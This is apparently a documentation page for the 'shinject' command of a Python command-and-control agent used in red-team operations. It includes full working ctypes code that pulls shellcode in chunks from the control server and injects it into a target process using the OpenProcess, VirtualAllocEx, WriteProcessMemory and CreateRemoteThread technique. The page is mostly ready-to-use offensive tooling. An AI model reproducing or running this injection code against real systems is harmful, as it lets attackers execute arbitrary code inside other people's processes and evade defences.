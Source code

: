 +++
title = "shinject"
chapter = false
weight = 100
hidden = false
+++

## Summary

This takes shellcode and injects it into a target process by ID.
     
{{% notice warning %}}
Make sure you match the architecture of your shellcode and target process.
{{% /notice %}}

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### shellcode

- Description: File upload of shellcode to inject
- Required Value: True  
- Default Value: None  

#### process id

- Description: ID of process to inject shellcode into
- Required Value: True  
- Default Value: None  

## Usage

```
shinject
```

## MITRE ATT&CK Mapping

- T1059  

## Detailed Summary

This makes use of the `ctypes` library once more, to perform the OpenProcess -> VirtualAllocex -> WriteProcessMemory -> CreateRemoteThread injection technique.



```Python
    def shinject(self, task_id, shellcode, pid):
        from ctypes import windll,c_int,byref,c_ulong
        total_chunks = 1
        chunk_num = 0
        sc = b""
        while (chunk_num < total_chunks):
            data = { 
                "action": "post_response", "responses": [{
                    "upload": { "chunk_size": 51200, "file_id": shellcode, "chunk_num": chunk_num },
                    "task_id": task_id
                }] 
            }
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            sc+=base64.b64decode(chunk["chunk_data"])

        PAGE_EXECUTE_READWRITE = 0x00000040
        PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF )
        VIRTUAL_MEM  = ( 0x1000 | 0x2000 )

        kernel32 = windll.kernel32
        code_size = len(sc)
        h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, int(pid))

        if not h_process:
            return "Error: Couldn't acquire a handle to PID {}".format(pid)
        arg_address = kernel32.VirtualAllocEx(h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
        written = c_int(0)
        kernel32.WriteProcessMemory(h_process, arg_address, sc, code_size, byref(written))
        thread_id = c_ulong(0)
        if not kernel32.CreateRemoteThread(h_process, None, 0, arg_address, None, 0, byref(thread_id)):
            return "[*] Failed to inject process-killing shellcode. Exiting."
        return "[*] Remote thread created."

```
